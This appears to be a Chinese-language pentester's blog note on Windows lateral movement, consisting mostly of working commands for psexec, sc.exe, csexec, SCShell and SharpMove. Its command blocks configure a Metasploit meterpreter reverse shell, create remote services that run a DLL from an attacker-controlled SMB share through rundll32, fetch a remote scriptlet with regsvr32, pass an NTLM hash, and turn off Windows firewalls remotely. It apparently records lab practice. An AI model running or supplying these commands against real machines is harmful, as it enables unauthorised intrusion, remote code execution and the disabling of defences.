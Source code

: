 ```yaml
---
title: sc远程服务横向移动
categories:
- windows
tags:
- windows
---
```

# 横向移动手法介绍教程
1. https://www.bilibili.com/video/BV1Hz4y1Z7pJ
2. https://www.bilibili.com/video/BV1Hz4y1Z7pJ?p=2
3. https://www.bilibili.com/video/BV1Hz4y1Z7pJ?p=3

## smbmap信息搜集

远程管理必须使用Admin$

查看远程共享
```
smbmap -H 192.168.123.45

smbmap -u administrator -p 123456 -d workgroup -H 192.168.123.45
```
## msf psexec （成功，不免杀，开启防火墙则无效）
使用的是139，445端口，目标机器必须开放这个端口。
```
1. impacket-smbserver
2. msf psexec

use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOST 192.168.123.45
set LPORT <Local Port>
set LHOST <Local IP>
set SMBUSER <local admin username>
set SMBPASS <local admin password>
exploit
```
漏洞利用，使用口令去进行命令执行
mimikatz，windows明文密码放在桌面，暴力破解，

## psexec.py（成功，不免杀，开启防火墙则无效）
python /usr/share/doc/python-impacket/examples/psexec.py workgroup/administrator@192.168.123.45 cmd.exe

## sc.exe （成功，开启防火墙也有效，不免杀）
开启rundll32的反弹shell监听服务器，不会的可以看这个视频：https://www.bilibili.com/video/BV1ey4y1k7PA/

```
激活管理员账号
net user administrator /active:yes

net use \\192.168.123.45\admin$ /user:"administrator" "123456"

net use \\192.168.123.45\admin$ /del

net share可以查看本机开放的资源

sc \\192.168.123.45 create whaleReverse15 binpath= "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\Azye\test.dll,0"

sc \\192.168.123.45 start whaleReverse15
```
## csexec（能过360，但不能过windows防火墙）
```
net user administrator 123456
net use \\192.168.28.1\admin$ /user:"administrator" "qwf123!!"
csexec.exe \\192.168.28.1 cmd.exe
操作超时

net use \\192.168.123.45\admin$ /user:"administrator" "123456"
csexec.exe \\192.168.123.45 cmd.exe
没有安装./net2

net use \\192.168.123.184\admin$ /user:"administrator" "123456"
csexec.exe \\192.168.123.45 cmd.exe
```
# 用法有点复杂，没有继续看的工具
##  scshell
```
使用这篇反弹shell “https://whale3070.github.io/tools/2020/10/04/11-x/”中提到的Regsvr32.exe

regsvr32 /s /n /u /i:http://192.168.123.123:8080/6IEDA48otwgL.sct
生成一个注册表

SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\rDAEep\test.dll,0" . administrastor 123456

regsvr32 /s /n /u /i:http://192.168.123.123:8080/6IEDA48otwgL.sct scrobj.dll
rundll32.exe \\192.168.123.123\MJear\test.dll,0

python scshell.py -target-ip 192.168.123.45 -service-name filepermsvc -no-cmd " C:\windows\system32\rundll32.exe \\192.168.123.123\rDAEep\test.dll,0" . administrastor 123456

SharpMove.exe action=query computername=192.168.123.45 query="filepermsvc" username=administrastor password=123456

SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator 123456
```
2020.10.07
```
python3 scshell.py WORKGROUP/WIN-U8OIU3QM15C@192.168.123.45 -hashes aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\wLWQND\test.dll,0
```
原理：
```
sc config filepermsvc binpath= "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe 
\\192.168.123.123\wLWQND\test.dll,0"

目标机器本地执行成功
C:\Users\Administrator\Desktop\SCShell.exe local filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\hltzs\test.dll,0" . administrator 123456

攻击机器执行：
D:\文件同步\tmp\横向移动参考资料\工具\SCShell-master\SCShell-master\SCShell.exe 192.168.123.45 filepermsvc "C:\windows\system32\cmd.exe /c C:\windows\system32\rundll32.exe \\192.168.123.123\hltzs\test.dll,0" . administrator 123456
```
## sharpmove
```
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
## 关闭防火墙命令
关闭公网上的防火墙
`netsh advfirewall set  currentprofile state off`

关闭内网中的防火墙
`netsh advfirewall set privateprofile state off`

### 远程关闭防火墙
```
netsh -r 192.168.123.45 -u administrator -p 123456 -c advfirewall set allprofiles state on

```

https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/netsh-advfirewall-firewall-control-firewall-behavior

https://www.windows-commandline.com/enable-disable-firewall-command-line/

## 参考资料
https://pentestlab.blog/2020/07/21/lateral-movement-services/

https://github.com/Mr-Un1k0d3r/SCShell

https://github.com/0xthirteen/MoveKit

https://github.com/0xthirteen/SharpMove

https://github.com/0xthirteen/SharpRDP



